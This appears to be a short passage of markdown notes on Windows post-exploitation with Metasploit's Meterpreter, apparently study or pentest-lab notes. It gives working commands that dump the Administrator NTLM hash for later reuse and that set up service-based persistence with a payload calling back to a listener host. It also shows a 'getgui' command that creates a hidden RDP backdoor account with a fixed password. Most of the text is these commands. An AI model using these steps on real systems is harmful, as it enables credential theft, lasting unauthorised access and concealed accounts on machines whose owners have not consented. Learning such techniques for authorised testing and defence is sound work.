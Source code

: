 
>You can run the "hashdump"  command to get the Administrator NTLM hash. so with this you'll be able to authenticate with it later on

>You can check the mitre attack website also


<h4>Persistence via Services</h4>
```
use exploit/windows/local/persistence_service
set LPORT
set LHOST
set SESSION
exploit
```

>Take note of the path the payload was written to, so you can delete afterwards




<h4>Persistence via RDP</h4>

>A new account will be created, rdp will be enabled, making the username not visible on the login screen

To create a new account on the  meterpreter shell
```
run getgui -e -u blackanon -p hacker_123321
```
>"getgui" command is  used to check if the rdp is enabled, if it is disabled, the command will enable it, further more it creates a new user. it hides the  user from the login screen



 